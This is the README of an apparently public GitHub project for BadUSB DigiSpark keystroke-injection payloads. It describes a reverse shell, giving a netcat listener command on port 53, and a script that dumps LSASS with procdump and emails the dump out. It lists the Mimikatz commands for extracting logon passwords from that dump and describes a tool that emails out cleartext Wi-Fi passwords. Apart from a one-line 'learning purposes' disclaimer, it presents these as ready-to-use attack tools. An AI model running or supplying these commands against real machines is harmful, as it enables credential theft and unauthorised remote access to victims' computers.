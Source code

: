 # BadUSB-DigiSpark Keyboard #

<p align="left">
  <img src="https://raw.githubusercontent.com/JodyWeijers/BadUSB-DigiSpark/master/3D/Evil.png">
</p>

### In order to upload the sketches to your DigiSpark you need the following: ###


- #### Download and install the Arduino IDE. ####
~~~~
https://www.arduino.cc/en/Main/Software
~~~~
- #### Configure and install the additional Digispark boards: ####
~~~~
https://raw.githubusercontent.com/digistump/arduino-boards-index/master/package_digistump_index.json
~~~~
- #### Configure your Digisprark setup. ####
~~~~
In the Arduino IDE set your board to (DigiSpark Default 16,5 Mhz) and the programmer to USBtinyISP.
~~~~
- #### Download and install the Digistump Drivers. ####
~~~~
https://github.com/digistump/DigistumpArduino/releases
~~~~

***

# Reversed Shell #

Simple script for setting up a reversed shell over TCP or UDP and specific port.


## Before you start setup the listener on the remote host. ##

~~~~
Run Netcat
~~~~
~~~~
# nc -ul -p 53
~~~~


You can also use powershell scripts see Powershell directory for the files or instructions below.

***

# Send-LSASS-Dump #

Started this script for a BadUSB Digispark project, script for retrieving lsass dump with sysinternals procdump tool.
Dump file is automatically send to an email address which can be configured in the variables.

## After receiving the dump file you can examine it and retreive the passwords. ##
~~~~
Run Mimikatz
~~~~
~~~~
mimikatz # sekurlsa::minidump lsass.dmp
~~~~
~~~~
mimikatz # sekurlsa::logonPasswords
~~~~

***

# Netsh-Ripper #

Started this script for a BadUSB Digispark project, script for retreiving wlan profile information and clear text passwords.
Text file is automatically send to an email address which can be configured in the variables.

***

### Only use this for learning purposes. ###
